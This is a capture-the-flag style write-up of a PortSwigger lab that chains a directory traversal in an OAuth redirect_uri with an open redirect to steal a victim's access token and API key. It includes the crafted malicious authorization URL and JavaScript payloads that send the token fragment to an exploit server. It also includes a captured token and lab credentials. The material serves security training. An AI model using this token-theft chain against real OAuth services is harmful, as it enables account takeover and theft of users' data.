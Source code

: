 # Stealing OAuth access tokens via an open redirect

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process (`wiener:peter`). Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater.
4. In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
7. Confirm that the `redirect_uri` parameter is in fact vulnerable to directory traversal by changing it to:

```text
https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post?postId=1
```

Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the **Next post** option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
9. In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to the exploit server:

```text
https://oauth-0ae200a004f3f5dcc13e332b02eb00e3.oauth-server.net/auth?client_id=pqljknqzyjxcmx466g9ru&redirect_uri=https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.

```text
https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit#access_token=nN8ZIvHilG4s7KBOdzYcCX67c_EOP-_6B_oqbkjEMZe&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

12. On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:

```text
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

13. To test that everything is working correctly, **Store** this exploit and visit the malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.

![Oauth](../../_static/images/oauth6.png)

14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

```text
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ae200a004f3f5dcc13e332b02eb00e3.oauth-server.net/auth?client_id=pqljknqzyjxcmx466g9ru&redirect_uri=https://0afd00940493f56bc11235de000a00cb.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a8200d604bff535c17a34810190009f.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

![Oauth](../../_static/images/oauth7.png)

15. To test that the exploit works, **store** it and then click **View exploit**. The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`.

![Oauth](../../_static/images/oauth8.png)

16. Deliver the exploit to the victim, then copy their access token from the log.

![Oauth](../../_static/images/oauth9.png)

```text
5x-Yiba4AKFqAooI7XQdZXBd2YgUtnFCg3SPODWJaT4
```

17. In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.

![Oauth](../../_static/images/oauth10.png)

18. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

![Oauth](../../_static/images/oauth11.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and then identify an open redirect on the blog website; use this to steal an access token for the admin user's account; use the access token to obtain the admin's API key; and submit the solution using the button provided in the lab banner. 
